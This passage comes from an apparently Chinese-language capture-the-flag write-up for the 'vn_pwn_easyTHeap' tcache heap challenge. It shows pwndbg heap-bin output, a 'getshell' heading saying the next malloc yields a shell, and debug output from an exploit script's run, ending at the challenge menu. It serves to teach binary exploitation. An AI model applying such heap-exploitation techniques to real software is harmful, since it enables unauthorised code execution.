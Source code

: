 ```python
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x555555757060 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x555555757060 /* '`puUUU' */
smallbins
empty
largebins
empty
pwndbg> 
```

## getshell
当再次malloc时就会getshell：

```python
ubuntu@ubuntu:~/Desktop$ python exp_debug.py 
[+] Starting local process './vn_pwn_easyTHeap_patch' argv=['./vn_pwn_easyTHeap_patch'] : pid 4049
[DEBUG] PLT 0x820 free
[DEBUG] PLT 0x830 puts
[DEBUG] PLT 0x840 __stack_chk_fail
[DEBUG] PLT 0x850 setbuf
[DEBUG] PLT 0x860 printf
[DEBUG] PLT 0x870 memset
[DEBUG] PLT 0x880 alarm
[DEBUG] PLT 0x890 read
[DEBUG] PLT 0x8a0 malloc
[DEBUG] PLT 0x8b0 atoi
[DEBUG] PLT 0x8c0 exit
[DEBUG] PLT 0x8d0 __cxa_finalize
[*] '/home/ubuntu/Desktop/vn_pwn_easyTHeap_patch'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] PLT 0x21020 realloc
[DEBUG] PLT 0x21060 __tls_get_addr
[DEBUG] PLT 0x210a0 memalign
[DEBUG] PLT 0x210b0 _dl_exception_create
[DEBUG] PLT 0x210f0 __tunable_get_val
[DEBUG] PLT 0x211a0 _dl_find_dso_for_object
[DEBUG] PLT 0x211e0 calloc
[DEBUG] PLT 0x212c0 malloc
[DEBUG] PLT 0x212c8 free
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] Received 0x64 bytes:
    'Welcome to V&N challange!\n'
    "This's a tcache heap for you.\n"
    '1.Add\n'
    '2.Edit\n'
    '3.Show\n'
    '4.Delete\n'
    '5.Exit\n'
    'choice: '
```